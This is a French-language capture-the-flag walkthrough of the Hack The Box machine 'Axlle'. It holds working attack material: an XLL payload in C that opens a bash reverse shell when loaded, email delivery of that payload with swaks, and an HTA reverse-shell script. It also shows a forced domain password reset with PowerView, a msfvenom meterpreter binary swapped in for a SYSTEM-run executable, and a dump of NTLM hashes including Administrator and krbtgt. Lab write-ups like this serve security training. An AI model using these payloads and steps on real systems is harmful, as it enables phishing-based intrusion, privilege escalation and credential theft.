

# htb_axlle

### Trouver l’adresse et service  
Configurer correctement le VPN et obtenir l'adresse：10.10.11.21 
`nmap -sSvc 10.10.11.21`


De nombreux ports ont été ouverts. Jetons un coup d'œil aux ports clés 80 et 445.

### Vérifiez les ports on trouvé

Port 80


Port 445


L’accès anonyme n’est pas possible non plus, donc il ne reste plus qu’à vérifier les autres ports.

J’ai remarqué le service SMTP sur le port 25 (en me référant à un rapport, il y a la possibilité d’utiliser XLL-EXEC pour envoyer un fichier à l’utilisateur admin et obtenir un accès shell).

### Essayez d'abord d'envoyer un article à l'administrateur (le compte administrateur est affiché dans l'interface Web)

`swaks --to accounts@axlle.htb --from test@test.test --header "Subject: 111" --body "just a test"  --attach test.txt`


La vérification des informations montre que le fichier txt a été téléchargé sur le serveur de l'autre partie.

Après avoir essayé ici, j'ai découvert que d'autres formats de fichiers ne peuvent pas être téléchargés, seuls les fichiers XLL peuvent être téléchargés.

## XLL-EXEC

https://swisskyrepo.github.io/InternalAllTheThings/redteam/access/office-attacks/#xll-exec

Copiez les fichiers et modifiez-les, et remplacez Powershell#3 (Base64) par le shell de rebond

```c
#include <windows.h>

__declspec(dllexport) void __cdecl xlAutoOpen(void);

void __cdecl xlAutoOpen() {
    WinExec("bash -c 'bash -i >& /dev/tcp/192.168.66.3/9100 0>&1'", 1);
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

```

Utilisez gcc pour compiler des fichiers C en fichiers xll

`x86_64-w64-mingw32-gcc -fPIC -shared -o shell.xll exploit.c -luser32`

Envoyez le fichier xll au compte administrateur et attendez l'exécution

`swaks --to accounts@axlle.htb --from test@test.test --header "Subject: 111" --body "give me a shell"  --attach shell.xll`


L'hôte ayant ouvert le service de messagerie, accédez à l'annuaire pour trouver des informations.

`cd "C:\Program Files (x86)\hmailserver\"`
Dans C:\Program Files (x86)\hmailserver\data\axlle.htb\dallon.matrix\2F>, il y a un fichier eml, affichez-le en tapant *



### reverse shell hta
Un script d'automatisation est utilisé pour tester l'URL, en plaçant l'URL dans le dossier `C:\inetpub\testing`. Le fichier `priv.url` contient l'emplacement du script HTA, dans lequel vous devez ajouter un code de reverse shell.

```java
#priv.url
[InternetShortcut]
URL=C:\Users\Public\Downloads\shell.hta

#shell.hta
<html>
<head>
<script language="jscript">
        var c = "bash -c 'bash -i >& /dev/tcp/192.168.66.3/9200 0>&1'"; 
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</head>
<body>
<script>self.close();</script>
</body>
</html>

```


Téléchargez un "sharphound" pour afficher les informations sur le domaine,donc téléchargez le fichier localement et utilisez Bloodhound pour l'analyse


### Réinitialiser le mot de passe utilisateur

On peut voir que le groupe "web devs" a l'autorisation de modifier le mot de passe de l'utilisateur jacob.greeny. Utilisez l'outil PowerView pour modifier son mot de passe.
`
. .\PowerView.ps1
$UserPassword = ConvertTo-SecureString 'Test123!' -AsPlainText -Force
Set-DomainUserPassword -Identity JACOB.GREENY -AccountPassword $UserPassword
`
Après modification, utilisez evil-winrm pour vous connecter à l'utilisateur.


### Réécrire le fichier

Vous avez trouvé un fichier README.md sous C:\App Development\kbfiltr, vérifiez-le


Il est à noter que le fichier `C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\standalonerunner.exe` sera exécuté en tant que fichier système. Commencez par vérifier les autorisations de ce dossier.

`icacls "C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64"`


On remarque que `Everyone` possède les permissions d'exécution et de lecture. Remplacez-le par votre propre payload.

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.36 LPORT=9500 -f exe -o standalonerunner.exe`


Exporter le hash NTLM, ici le hash de Jacob correspond à la valeur avant la modification du mot de passe.

```hash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6322b5b9f9daecb0fefd594fa6fafb6a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6d92f4784b46504cf3bedbc702ac03fe:::
david.brice:1109:aad3b435b51404eeaad3b435b51404ee:0279f2a1f290ff139458088afb45fa3f:::
frankie.rose:1110:aad3b435b51404eeaad3b435b51404ee:80c10c678c9b31e2091065c90519e529:::
brad.shaw:1111:aad3b435b51404eeaad3b435b51404ee:9cefad58a9a2188687922a6cc10485a3:::
samantha.jade:1112:aad3b435b51404eeaad3b435b51404ee:8047ec8cda0666f4e1c1be0ddc2d0378:::
gideon.hamill:1113:aad3b435b51404eeaad3b435b51404ee:aa753e07e1fd47a45e0ecb3a0cc70dab:::
xavier.edmund:1114:aad3b435b51404eeaad3b435b51404ee:9ecaa82cc22e0e1534493a03276dc02b:::
emily.cook:1115:aad3b435b51404eeaad3b435b51404ee:b35775e6e9d3af6c0dcf33cef162986d:::
brooke.graham:1116:aad3b435b51404eeaad3b435b51404ee:bcd1044566a9fb7fe130bdd5bcce7db1:::
trent.langdon:1117:aad3b435b51404eeaad3b435b51404ee:a4bbfacd030508d12f3a203bbab8b1f8:::
matt.drew:1118:aad3b435b51404eeaad3b435b51404ee:eb116285721b66b71d98803716b94616:::
jess.adams:1119:aad3b435b51404eeaad3b435b51404ee:933d10a14def0ed5ffbd708092d92e4d:::
jacob.greeny:1120:aad3b435b51404eeaad3b435b51404ee:805175c3d08be3027ed63e88a944f736:::
simon.smalls:1121:aad3b435b51404eeaad3b435b51404ee:d14ddd0880870e9d7fcb442653b6183e:::
dan.kendo:1122:aad3b435b51404eeaad3b435b51404ee:3fa7f786ca68123db7fdef522cb93a22:::
lindsay.richards:1123:aad3b435b51404eeaad3b435b51404ee:71d62e4384f2e9b92169a10a29539b2d:::
calum.scott:1124:aad3b435b51404eeaad3b435b51404ee:35a376bb58095b4a559fbceccdb01364:::
dallon.matrix:1125:aad3b435b51404eeaad3b435b51404ee:124a4a99bf67ca4b04e2266f967daa64:::
baz.humphries:1126:aad3b435b51404eeaad3b435b51404ee:ecfc37e6e4797f9ae97b61f0265c0561:::
MAINFRAME$:1000:aad3b435b51404eeaad3b435b51404ee:011a082f7649082b7fe7521c2ae2bb2a:::
```
